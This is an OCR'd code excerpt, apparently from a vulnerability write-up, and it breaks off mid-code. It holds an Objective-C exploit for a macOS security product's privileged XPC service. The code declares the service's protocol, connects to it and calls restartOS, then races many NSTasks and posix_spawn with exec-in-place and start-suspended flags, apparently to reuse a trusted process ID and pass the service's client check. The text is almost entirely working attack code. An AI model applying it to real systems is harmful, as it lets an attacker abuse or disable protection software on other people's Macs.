 ```objectivec
extern char **environ;

// defining necessary protocols
@protocol ProtectionService
- (void)startDatabaseUpdate;
- (void)restoreApplicationLauncherWithCompletion:(void (^)(BOOL))arg1;
- (void)uninstallProduct;
- (void)installProductUpdate;
- (void)startProductUpdateWith:(NSUUID *)arg1 forceInstall:(BOOL)arg2;
- (void)buildPurchaseSiteURLWithCompletion:(void (^)(long long, NSString *))arg1;
- (void)triggerLicenseRelatedChecks;
- (void)buildRenewalLinkWith:(NSUUID *)arg1 completion:(void (^)(long long, NSString *))arg2;
- (void)cancelTrialWith:(NSUUID *)arg1 completion:(void (^)(long long))arg2;
- (void)startTrialWith:(NSUUID *)arg1 completion:(void (^)(long long))arg2;
- (void)unredeemLicenseKeyWith:(NSUUID *)arg1 completion:(void (^)(long long))arg2;
- (void)applyLicenseWith:(NSUUID *)arg1 key:(NSString *)arg2 completion:(void (^)(long long))arg3;
- (void)controlProtectionWithRawFeatures:(long long)arg1 rawOperation:(long long)arg2;
- (void)restartOS;
- (void)resumeScanJob;
- (void)pauseScanJob;
- (void)stopScanJob;
- (void)startScanJob;
- (void)disposeOperationBy:(NSUUID *)arg1;
- (void)subscribeTo:(long long)arg1;
- (void)pingWithTag:(NSUUID *)arg1 completion:(void (^)(NSUUID *, long long))arg2;
@end

void child() {

// send the XPC messages
NSXPCInterface *remoteInterface = [NSXPCInterface interfaceWithProtocol:@protocol(ProtectionService)];
NSXPCConnection *xpcConnection = [[NSXPCConnection alloc] initWithMachServiceName:MACH_SERVICE options:NSXPCConnectionPrivileged];
xpcConnection.remoteObjectInterface = remoteInterface;

[xpcConnection resume];
[xpcConnection.remoteObjectProxy restartOS];

char target_binary[] = BINARY;
char *target_argv[] = {target_binary, NULL};
posix_spawnattr_t attr;
posix_spawnattr_init(&attr);
short flags;
posix_spawnattr_getflags(&attr, &flags);
flags |= (POSIX_SPAWN_SETEXEC | POSIX_SPAWN_START_SUSPENDED);
posix_spawnattr_setflags(&attr, flags);
posix_spawn(NULL, target_binary, NULL, &attr, target_argv, environ);
}

bool create_nstasks() {

NSString *exec = [[NSBundle mainBundle] executablePath];
NSTask *processes[RACE_COUNT];

for (int i = 0; i < RACE_COUNT; i++) {
processes[i] = [NSTask launchedTaskWithLaunchPath:exec arguments:@[ @"imanstask" ]];
}

int i = 0;
struct timespec ts = {
.tv_sec = 0,
.tv_nsec = 500 * 1000000,
```